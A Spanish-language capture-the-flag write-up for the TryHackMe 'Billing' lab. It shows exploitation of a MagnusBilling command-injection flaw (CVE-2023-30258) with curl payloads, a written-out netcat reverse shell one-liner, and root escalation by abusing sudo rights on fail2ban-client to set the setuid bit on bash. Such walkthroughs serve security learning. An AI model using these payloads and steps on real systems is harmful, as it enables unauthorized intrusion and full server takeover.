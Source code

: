 ```yaml
---
title: Billing - TryHackMe
layout: post
permalink: /writeups/THM/Billing
date: 2025-04-21 11:00:00 -0000
description: >
  Write up en español para Billing - TryHackMe
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.20.37
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-21 23:38 CAT
Nmap scan report for 10.10.20.37
Host is up (0.054s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry
|_/mbilling/
| http-title:             MagnusBilling
|_Requested resource was http://10.10.20.37/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **22** (`SSH`)
- **80** (`HTTP`)
- **3306** (`MySQL`)
- **5038** (`Asterisk`)

## Servicio MagnusBilling

Dentro del directorio `/mbilling/` podemos encontrar un fichero llamado `README.md` que nos indica la verison de la aplicación.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage.png)

Si buscamos vulnerabilidades en la aplicación podemos encontrar [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258). 
Esta vulnerabilidad nos permite ejecutar comandos mediante peticiones HTTP sin autenticación.

Según este [PoC](https://eldstal.se/advisories/230327-magnusbilling.html) haremos la siguiente petición.

Al revisar el [código vulnerable](https://github.com/magnussolution/magnusbilling7/blob/f6cd038161349895ff6f186405b9a89f564c9448/lib/icepay/icepay.php#L753) mencionado en el advisory, se aprecia que si se proporciona el parámetro GET `democ` (y su longitud supera los 5 caracteres) en una petición al endpoint `/lib/icepay/icepay.php`, se construye un comando así:

```php
"touch " . $_GET['democ'] . '.txt'
```

Esta cadena se pasa luego a la función `exec()`, lo que hace que el código sea vulnerable a inyección de comandos.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngmagnusbilling_vulnerable_code.webp)

Al probar el PoC del advisory con comandos `sleep`, se confirma la vulnerabilidad, pues el servidor tarda sistemáticamente más del tiempo especificado en nuestras órdenes `sleep`, lo que indica que se están ejecutando.

```bash
time curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'
curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'  0.01s user 0.00s system 0% cpu 5.118 total

time curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+3;'
curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+3;'  0.00s user 0.00s system 0% cpu 3.118 total

```

Sabiendo que podemos ejecutar comandos podemos obtener una reverse shell.

```plaintext
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.66.202 4444 >/tmp/f;'
```

Y la codificamos en URL.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-1.png)

## Shell con asterisk

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-2.png)

### User flag

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-3.png)

## Escalado de privilegios

Ejecutamos 

```bash
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

Al verificar los privilegios de sudo del usuario asterisk, encontramos que dicho usuario tiene permitido ejecutar el comando fail2ban-client como root sin necesidad de contraseña.


**fail2ban-client** es una interfaz de línea de comandos que nos permite interactuar, configurar y controlar el **fail2ban-server**. A modo de resumen, fail2ban es una herramienta de seguridad que monitorea archivos de log en busca de actividades sospechosas (como múltiples intentos fallidos de inicio de sesión) y bloquea las IP ofensivas modificando reglas del firewall.

Verificando el estado del fail2ban-server, observamos que hay 8 jails activos:

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-4.png)

Los jails son básicamente configuraciones que definen qué logs monitorear, los patrones a buscar y qué acciones tomar cuando se detectan esos patrones.

Al revisar el archivo /etc/fail2ban/jail.local, vemos un ejemplo de jail.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-5.png)

Esta configuración indica, entre otras cosas, que el jail **asterisk-iptables** monitorea el archivo `/var/log/asterisk/messages` y busca patrones definidos en el filtro asterisk (/etc/fail2ban/filter.d/asterisk.conf). Cuando se detectan coincidencias, ejecuta la acción definida en **iptables-allports** (/etc/fail2ban/action.d/iptables-allports.conf).

Para usar fail2ban para ejecutar comandos como **root**, podemos modificar una de las acciones definidas para un jail, como la acción que se realiza al banear una IP (actionban).

Primero, consultamos las acciones activas del jail **asterisk-iptables** y luego, modificamos la acción actionban de **iptables-allports-ASTERISK** para ejecutar un comando arbitrario, en este caso, establecer el bit setuid en **/bin/bash**.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-6.png)

Ahora, al banear manualmente una IP en el jail **asterisk-iptables**, se ejecutará el comando `chmod +s /bin/bash` como root.

Finalmente, con el bit setuid activado en /bin/bash, podemos usarlo para obtener una shell con privilegios de root

![alt text](/assets/img/writeups/tryhackme/billing/image-7.png)
